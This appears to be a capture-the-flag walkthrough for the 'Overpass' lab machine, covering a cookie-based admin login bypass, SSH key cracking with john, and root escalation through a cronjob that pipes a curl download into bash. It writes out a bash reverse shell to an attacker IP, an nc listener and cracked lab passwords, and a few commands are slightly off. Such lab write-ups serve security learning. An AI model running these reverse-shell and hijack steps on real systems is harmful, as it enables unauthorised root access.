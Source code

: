 # Overpass

> What happens when some broke CompSci students make a password manager?

<br>

Process:
- 1) run Autorecon
  - found:
    - 22
    - 80
- 2) enumerate port 80
  - found "/admin" directory 
  - login is based on cookies and client-side JS
  - bypass this with burpsuite 
  - found encrtyped SSH key 
- 3) decrypt SSH key:
  - `ssh2john id_rsa > hash.txt`
  - `john --wordlist=<wordlist> hash.txt`
  - password = "james13"
- 4) ssh into system
  - `ssh james@<ip>` -> [james13]`
  - `cat user.txt` = **...**
- 5) escalate privileges
  - `cat todo.txt` -- stored password in overpass password manager:
    - `overpass` -> [4] to retrieve all passwords 
    - password = "System" 
    - password = "saydrawnlyingpicture"
  - found cronjob that runs as root:
    - "* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash"
  - can inject code to get a root shell 
  - "overpass.thm" in /etc/hosts fils points to localhost (127.0.0.1), can change this to point at my IP
    - in /etc/hosts -> "10.11.31.198:4444 overpass.thm"
  - create reverse shell on own system:
    - `mkdir -p downloads/src && touch downloads/src/buildscript.sh`
    - `echo 'bash -i >& /dev/tcp/10.11.31.198/1234 0>&1' > downloads/src/buildscript.sh`
    - `chmod +x /downloads/src/buildscript.sh`
  - create python http-server listening for connection:
    - `sudo python3 -m http.server 80`
  - setup second netcat listener to catch reverse shell:
    - `nc -lvnp 1234`
- 6) once caught you'll have a root reverse shell
  - `cat root.txt` = **...**
